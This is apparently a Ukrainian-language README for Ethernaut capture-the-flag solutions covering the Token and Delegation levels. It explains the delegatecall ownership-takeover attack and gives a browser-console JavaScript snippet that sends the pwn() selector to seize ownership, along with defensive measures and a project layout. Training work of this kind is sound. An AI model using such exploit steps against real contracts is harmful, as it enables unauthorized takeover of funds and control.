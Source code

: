 #### Контракти
- **Delegate.sol** - контракт з функцією pwn()
- **Delegation.sol** - вразливий контракт з delegatecall
- **DelegateAttacker.sol** - контракт-атакувач

#### Механізм атаки
1. Формування сигнатури функції: `bytes4(keccak256("pwn()"))`
2. Виклик fallback функції Delegation з підготовленими даними
3. Fallback робить delegatecall до Delegate.pwn()
4. Функція pwn() виконується в контексті Delegation
5. Змінна `owner` в Delegation змінюється на адресу атакувача

#### Метод через консоль браузера
```javascript
// Отримати поточного власника
await contract.owner()

// Виконати атаку
await contract.sendTransaction({
    from: player,
    data: web3.eth.abi.encodeFunctionSignature('pwn()')
})

// Перевірити нового власника
await contract.owner()
```

#### Захист
- Обмежити використання delegatecall
- Додати перевірки прав доступу
- Використовувати allowlist для викликів через delegatecall
- Ретельно контролювати msg.data у fallback функції

## Структура проекту

```
ethernaut-security-challenges/
├── Token.sol                 # Вразливий контракт токену (Solidity 0.6.0)
├── TokenAttacker.sol         # Атакувач для Token
├── Delegate.sol              # Базовий контракт з pwn()
├── Delegation.sol            # Вразливий контракт з delegatecall
├── DelegateAttacker.sol      # Атакувач для Delegation
├── 5-Token.jpg              # Скріншот успішної атаки на Token
├── 6 Delegation.jpg         # Скріншот успішної атаки на Delegation
└── README.md                # Цей файл
```

## Інструкція з компіляції та тестування

### Передумови
- [Remix IDE](https://remix.ethereum.org/)
- Браузер з Web3 (MetaMask)
- Тестова мережа Ethereum (Sepolia, Goerli)
- Акаунт на [Ethernaut](https://ethernaut.openzeppelin.com/)
